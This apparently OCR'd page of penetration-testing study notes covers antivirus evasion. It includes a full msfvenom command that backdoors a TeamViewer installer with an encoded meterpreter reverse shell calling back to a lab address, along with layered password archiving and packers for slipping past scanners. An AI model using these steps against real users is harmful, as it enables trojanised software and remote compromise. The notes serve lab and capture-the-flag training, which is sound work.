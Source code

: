 ### Key Techniques:
1. **Encrypted Payloads**:
   MSF6 can tunnel AES-encrypted communication between the attacker and victim.
2. **Executable Templates**:
   Use templates like legitimate software to embed payloads, reducing detection.
3. **Archiving with Passwords**:
   Compressing and password-protecting files can bypass some antivirus scanners.
4. **Packers**:
   Tools like UPX or Themida compress executables, obfuscating the payload.

---

## Generating Backdoored Executables with `msfvenom`

To embed a payload into a legitimate executable, use:

```bash
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

The `-k` flag ensures the legitimate executable continues to run after launching the payload.

---

## Archiving Payloads

1. Archive the payload with a password:
   ```bash
   rar a ~/test.rar -p ~/test.js
   ```
2. Remove the file extension:
   ```bash
   mv test.rar test
   ```

3. Archive the resulting file again with another password:
   ```bash
   rar a test2.rar -p test
   ```

This multi-layer archiving can bypass many antivirus scanners.

---

## Packers

Packers compress and obfuscate executables, making detection harder. Examples include UPX, Themida, and Enigma Protector.

---

## A Note on Evasion

Evasion is a vast topic and cannot be fully covered here. Practice evasion skills with older HTB machines or virtual environments with outdated antivirus software.
